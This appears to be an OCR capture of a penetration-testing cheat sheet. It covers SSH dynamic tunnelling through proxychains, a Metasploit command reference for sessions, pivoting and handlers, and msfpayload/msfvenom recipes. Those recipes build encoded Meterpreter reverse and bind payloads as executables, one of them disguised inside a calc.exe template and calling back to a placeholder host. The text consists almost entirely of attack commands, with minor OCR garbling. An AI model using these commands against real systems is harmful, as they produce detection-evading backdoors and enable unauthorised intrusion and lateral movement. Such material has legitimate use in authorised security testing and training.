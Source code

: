 
DYNAMIC TUNNEL USED IN CONJUNCTION WITH PROXYCHAINS. ENSURE /ETC/PROXYCHAINS.CONF IS CONFIGURED ON CORRECT PORT (1080)

ssh -D1080 root@2.2.2.2

In a separate terminal run:
proxychains nmap -sT -p80,443 3.3.3.3


METASPLOIT


msfconsole -r file.rc                            Load resource file
msfcli | grep exploit/window                     List Windows exploits
msfencode -l                                     List available encoders
msfpayload -h                                    List available payloads
show exploits                                    Display exploits
show auxiliary                                   Display auxiliary modules
show payloads                                    Display payloads
search	string                                   Search for string
info module                                      Show module information
use module                                       Load exploit or module
show options                                     Displays module options
show advanced                                    Displays advanced options
set  option  value                               Sets a value
sessions -v                                      List session: -k # (kill)
                                                 -u # (upgrade to Meterpreter)
sessions -s script                               Run Meterpreter script on all                                                 sessions
jobs -l                                          List all jobs (-k # = kill)
exploit -j                                       Run exploit as job
route add  ip  nmask sid                         Pivoting
loadpath /home/modules                           Load 3rd party tree
irb                                              Live Ruby interpreter shell
connect -s ip 443                                SSL connect (NC clone)
route add  ip  mask  session id                  Add route through session 
						(pivot)
exploit/multi/handler - set                      Advanced option allows for
ExitOnSession False                              multiple shells        
set ConsoleLogging true (also SessionLogging)    Enables logging


CREATE ENCODED METERPRETER PAYLOAD (FOR LINUX: -T ELF -0 CALLBACK)

./msfpayload windows/meterpreter/reverse_tcp LHOST= ip LPORT= port R 1 
./msfencode -t exe -o callback.exe -e x86/shikata_ga_nai -c 5


CREATE BIND METERPRETER PAYLOAD

./msfpayload windows/meterpreter/bind_tcp RHOST= ip LPORT= port X cb.exe


CREATE ENCODED PAYLOAD USING MSFVENOM USING EXE TEMPLATE

./msfvenom --payload windows/meterpreter/reverse_tcp --format exe --template calc.exe -k --encoder x86/shikata_ga_nai -i 5 LHOST-1.1.1.1
LPORT=443	callback. exe
